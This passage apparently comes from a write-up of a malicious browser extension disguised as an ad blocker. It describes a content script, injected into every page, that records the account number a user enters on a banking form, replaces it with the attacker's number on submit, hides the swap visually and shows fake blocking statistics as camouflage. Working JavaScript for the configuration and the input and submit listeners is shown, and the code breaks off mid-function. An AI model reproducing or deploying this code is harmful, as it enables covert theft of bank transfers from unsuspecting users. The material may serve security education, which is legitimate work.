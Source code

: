 ```json
  }
}
```

Key manifest elements:
- `storage` permission - access to browser storage API
- `tabs` permission - access to open tabs
- `content_scripts` - definition of the script to be injected into all pages
- `service_worker` - background script running at all times

### Content Script

The `content.js` script is injected into every visited page. It contains the code that performs the attack on banking forms. Main functionalities:

1. **Banking form identification** - the script analyzes the page DOM looking for forms with account number fields
2. **Input data interception** - saves the original account number entered by the user
3. **Data replacement** - changes the account number to the attacker's number before form submission
4. **Hiding modifications** - restores the original number in the visual layer
5. **Ad blocking simulation** - for camouflage, provides fake blocking statistics

Here are the key elements of the content.js script:

```javascript
// Attack configuration
let attackerAccountNumber = "12345678901234567890123456";
let isActive = true; // Enabled by default
let originalAccountNumber = "";

// Get configuration from browser memory
chrome.storage.sync.get(['bankConfig'], function(result) {
  if (result.bankConfig) {
    attackerAccountNumber = result.bankConfig.targetAccountNumber || attackerAccountNumber;
    isActive = result.bankConfig.isActive !== undefined ? result.bankConfig.isActive : true;
  }
  
  if (isActive) {
    executeAttack();
  }
});

// Main attack function
function executeAttack() {
  // 1. Listen for data input
  document.addEventListener('input', function(e) {
    if (e.target.tagName === 'INPUT' && 
       (e.target.id.toLowerCase().includes('account') || 
        e.target.id.toLowerCase().includes('konto'))) {
      originalAccountNumber = e.target.value;
      
      // Save original number to memory
      chrome.storage.local.set({
        'originalAccount': originalAccountNumber
      });
    }
  });
  
  // 2. Replace number when submitting the form
  document.addEventListener('submit', function(e) {
    const accountFields = e.target.querySelectorAll(
      'input[id*="account" i], input[id*="konto" i]'
    );
    
```